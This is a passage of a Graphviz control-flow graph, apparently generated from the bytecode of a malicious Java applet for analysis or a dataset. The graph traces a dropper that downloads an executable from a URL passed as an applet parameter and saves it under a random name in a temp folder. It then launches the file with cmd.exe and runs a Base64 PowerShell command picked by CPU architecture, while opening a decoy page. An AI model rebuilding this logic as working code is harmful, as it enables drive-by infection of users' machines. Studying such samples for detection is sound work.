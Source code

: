 digraph "" {
    "r0 := @this: Java"
    "new java.util.Random"
    "r0 := @this: Java"->"new java.util.Random";
    "dup1.r"
    "new java.util.Random"->"dup1.r";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "dup1.r"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "goto return"
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "dup1.r"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
    "specialinvoke <java.util.Random: void <init>()>"
    "dup1.r"->"specialinvoke <java.util.Random: void <init>()>";
    "virtualinvoke <java.util.Random: long nextLong()>"
    "specialinvoke <java.util.Random: void <init>()>"->"virtualinvoke <java.util.Random: long nextLong()>";
    "staticinvoke <java.lang.Math: long abs(long)>"
    "virtualinvoke <java.util.Random: long nextLong()>"->"staticinvoke <java.lang.Math: long abs(long)>";
    "push 36"
    "staticinvoke <java.lang.Math: long abs(long)>"->"push 36";
    "staticinvoke <java.lang.Long: java.lang.String toString(long,int)>"
    "push 36"->"staticinvoke <java.lang.Long: java.lang.String toString(long,int)>";
    "store.r r1"
    "staticinvoke <java.lang.Long: java.lang.String toString(long,int)>"->"store.r r1";
    "new java.io.File"
    "store.r r1"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "push \"C:\\tmp\""
    "dup1.r"->"push \"C:\\tmp\"";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"
    "push \"C:\\tmp\""->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean mkdirs()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean mkdirs()>";
    "pop"
    "virtualinvoke <java.io.File: boolean mkdirs()>"->"pop";
    "new java.lang.StringBuilder"
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"C:\\tmp\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"C:\\tmp\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "staticget <java.io.File: java.lang.String separator>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"staticget <java.io.File: java.lang.String separator>";
    "staticget <java.io.File: java.lang.String separator>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r59"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r59";
    "store.r r59"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"java.io.tmpdir\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"java.io.tmpdir\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"staticget <java.io.File: java.lang.String separator>";
    "staticget <java.io.File: java.lang.String separator>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"pop";
    "push \"os.name\""
    "pop"->"push \"os.name\"";
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"os.arch\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"os.arch\"";
    "push \"os.arch\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r5"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r5";
    "push \"\""
    "store.r r5"->"push \"\"";
    "store.r $r50"
    "push \"\""->"store.r $r50";
    "store.r $r50"->"push \"\"";
    "store.r r61"
    "push \"\""->"store.r r61";
    "store.r r61"->"push \"\"";
    "store.r $r36"
    "push \"\""->"store.r $r36";
    "store.r $r36"->"push \"\"";
    "store.r $r41"
    "push \"\""->"store.r $r41";
    "push -1"
    "store.r $r41"->"push -1";
    "store.b b12"
    "push -1"->"store.b b12";
    "push \"win\""
    "store.b b12"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r $r50"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r $r50";
    "load.r r0"
    "iflt load.r $r50"->"load.r r0";
    "push \"WINDOWS\""
    "load.r r0"->"push \"WINDOWS\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"WINDOWS\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r $r50";
    "store.r $r50"->"load.r r0";
    "push \"STUFF\""
    "load.r r0"->"push \"STUFF\"";
    "push \"STUFF\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r61";
    "store.r r61"->"load.r r0";
    "push \"64\""
    "load.r r0"->"push \"64\"";
    "push \"64\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r $r36";
    "store.r $r36"->"load.r r0";
    "push \"86\""
    "load.r r0"->"push \"86\"";
    "push \"86\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r $r41";
    "push 0"
    "store.r $r41"->"push 0";
    "push 0"->"store.b b12";
    "store.b b12"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r59"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r59";
    "load.r r59"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \".exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".exe\"";
    "push \".exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r59";
    "load.r $r50"
    "store.r r59"->"load.r $r50";
    "virtualinvoke <java.lang.String: int length()>"
    "load.r $r50"->"virtualinvoke <java.lang.String: int length()>";
    "ifle load.r r0"
    "virtualinvoke <java.lang.String: int length()>"->"ifle load.r r0";
    "ifle load.r r0"->"load.r r59";
    "load.r r59"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"ifle load.r r0";
    "new java.net.URL"
    "ifle load.r r0"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r $r50";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r $r50"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "store.r r65"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"store.r r65";
    "new java.io.BufferedInputStream"
    "store.r r65"->"new java.io.BufferedInputStream";
    "new java.io.BufferedInputStream"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r65"
    "load.r r1"->"load.r r65";
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"
    "load.r r65"->"specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>";
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"->"new java.io.File";
    "store.r r7"
    "new java.io.File"->"store.r r7";
    "load.r r7"
    "store.r r7"->"load.r r7";
    "load.r r7"->"load.r r59";
    "load.r r59"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "new java.io.BufferedOutputStream"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"new java.io.BufferedOutputStream";
    "new java.io.BufferedOutputStream"->"store.r $r50";
    "store.r $r50"->"load.r $r50";
    "new java.io.FileOutputStream"
    "load.r $r50"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"dup1.r";
    "dup1.r"->"load.r r7";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>"
    "load.r r7"->"specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>"->"specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>";
    "push 2048"
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>"->"push 2048";
    "newarray"
    "push 2048"->"newarray";
    "newarray"->"store.r r7";
    "store.r r7"->"load.r r1";
    "load.r r1"->"load.r r7";
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"
    "load.r r7"->"virtualinvoke <java.io.BufferedInputStream: int read(byte[])>";
    "store.i i0"
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"->"store.i i0";
    "load.i i0"
    "store.i i0"->"load.i i0";
    "ifgt load.r $r50"
    "load.i i0"->"ifgt load.r $r50";
    "goto load.r $r50"
    "ifgt load.r $r50"->"goto load.r $r50";
    "goto load.r $r50"->"load.r $r50";
    "virtualinvoke <java.io.OutputStream: void flush()>"
    "load.r $r50"->"virtualinvoke <java.io.OutputStream: void flush()>";
    "virtualinvoke <java.io.OutputStream: void flush()>"->"load.r $r50";
    "virtualinvoke <java.io.OutputStream: void close()>"
    "load.r $r50"->"virtualinvoke <java.io.OutputStream: void close()>";
    "virtualinvoke <java.io.OutputStream: void close()>"->"load.r r65";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r65"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r r0";
    "push \"nextPage\""
    "load.r r0"->"push \"nextPage\"";
    "push \"nextPage\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r $r50";
    "store.r $r50"->"load.r $r50";
    "ifnull load.b b12"
    "load.r $r50"->"ifnull load.b b12";
    "ifnull load.b b12"->"load.r $r50";
    "load.r $r50"->"virtualinvoke <java.lang.String: int length()>";
    "ifle load.b b12"
    "virtualinvoke <java.lang.String: int length()>"->"ifle load.b b12";
    "ifle load.b b12"->"new java.net.URL";
    "new java.net.URL"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r1"->"load.r $r50";
    "load.r $r50"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"load.r r0";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Java: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"->"load.r r1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r1"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "load.b b12"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"load.b b12";
    "push 1"
    "load.b b12"->"push 1";
    "ifcmpge.b load.r r0"
    "push 1"->"ifcmpge.b load.r r0";
    "ifcmpge.b load.r r0"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "push \"C:\\Windows\\System32\\WindowsPowershell\\v1.0\""
    "dup1.r"->"push \"C:\\Windows\\System32\\WindowsPowershell\\v1.0\"";
    "push \"C:\\Windows\\System32\\WindowsPowershell\\v1.0\""->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean exists()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean exists()>";
    "ifeq load.r r61"
    "virtualinvoke <java.io.File: boolean exists()>"->"ifeq load.r r61";
    "load.r $r36"
    "ifeq load.r r61"->"load.r $r36";
    "load.r $r36"->"virtualinvoke <java.lang.String: int length()>";
    "push 3"
    "virtualinvoke <java.lang.String: int length()>"->"push 3";
    "ifcmple.i load.r r61"
    "push 3"->"ifcmple.i load.r r61";
    "load.r r5"
    "ifcmple.i load.r r61"->"load.r r5";
    "load.r r5"->"push \"86\"";
    "virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>"
    "push \"86\""->"virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>";
    "ifne load.r $r41"
    "virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>"->"ifne load.r $r41";
    "ifne load.r $r41"->"load.r r5";
    "load.r r5"->"push \"64\"";
    "push \"64\""->"virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>";
    "ifeq load.r r5"
    "virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>"->"ifeq load.r r5";
    "load.r $r41"
    "ifeq load.r r5"->"load.r $r41";
    "load.r $r41"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 3";
    "push 3"->"ifcmple.i load.r r61";
    "new java.lang.ProcessBuilder"
    "ifcmple.i load.r r61"->"new java.lang.ProcessBuilder";
    "new java.lang.ProcessBuilder"->"dup1.r";
    "push 5"
    "dup1.r"->"push 5";
    "push 5"->"newarray";
    "newarray"->"store.r $r36";
    "store.r $r36"->"load.r $r36";
    "load.r $r36"->"push 0";
    "push \"cmd\""
    "push 0"->"push \"cmd\"";
    "arraywrite.r"
    "push \"cmd\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r36";
    "load.r $r36"->"push 1";
    "push \"/c\""
    "push 1"->"push \"/c\"";
    "push \"/c\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r36";
    "push 2"
    "load.r $r36"->"push 2";
    "push \"powershell\""
    "push 2"->"push \"powershell\"";
    "push \"powershell\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r36";
    "load.r $r36"->"push 3";
    "push \"-EncodedCommand\""
    "push 3"->"push \"-EncodedCommand\"";
    "push \"-EncodedCommand\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r36";
    "push 4"
    "load.r $r36"->"push 4";
    "push 4"->"load.r $r41";
    "load.r $r41"->"arraywrite.r";
    "arraywrite.r"->"load.r $r36";
    "specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>"
    "load.r $r36"->"specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>";
    "virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>"
    "specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>"->"virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>";
    "virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>"->"store.r $r36";
    "store.r $r36"->"load.r $r36";
    "virtualinvoke <java.lang.Process: void destroy()>"
    "load.r $r36"->"virtualinvoke <java.lang.Process: void destroy()>";
    "virtualinvoke <java.lang.Process: void destroy()>"->"load.r $r36";
    "virtualinvoke <java.lang.Process: java.io.OutputStream getOutputStream()>"
    "load.r $r36"->"virtualinvoke <java.lang.Process: java.io.OutputStream getOutputStream()>";
    "virtualinvoke <java.lang.Process: java.io.OutputStream getOutputStream()>"->"virtualinvoke <java.io.OutputStream: void close()>";
    "virtualinvoke <java.io.OutputStream: void close()>"->"load.r $r36";
    "virtualinvoke <java.lang.Process: java.io.InputStream getInputStream()>"
    "load.r $r36"->"virtualinvoke <java.lang.Process: java.io.InputStream getInputStream()>";
    "virtualinvoke <java.lang.Process: java.io.InputStream getInputStream()>"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r36";
    "virtualinvoke <java.lang.Process: java.io.InputStream getErrorStream()>"
    "load.r $r36"->"virtualinvoke <java.lang.Process: java.io.InputStream getErrorStream()>";
    "virtualinvoke <java.lang.Process: java.io.InputStream getErrorStream()>"->"virtualinvoke <java.io.InputStream: void close()>";
    "goto load.r r61"
    "virtualinvoke <java.io.InputStream: void close()>"->"goto load.r r61";
    "load.r r61"
    "goto load.r r61"->"load.r r61";
    "load.r r61"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 3";
    "ifcmpge.i load.r r61"
    "push 3"->"ifcmpge.i load.r r61";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "ifcmpge.i load.r r61"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"cmd.exe /c \""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"cmd.exe /c \"";
    "push \"cmd.exe /c \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r59";
    "load.r r59"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "push 2000L"
    "pop"->"push 2000L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 2000L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"load.r r61";
    "load.r r61"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 3";
    "ifcmple.i new java.io.File"
    "push 3"->"ifcmple.i new java.io.File";
    "ifcmple.i new java.io.File"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"cmd.exe /c \\\"\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"cmd.exe /c \\\"\"";
    "push \"cmd.exe /c \\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r59";
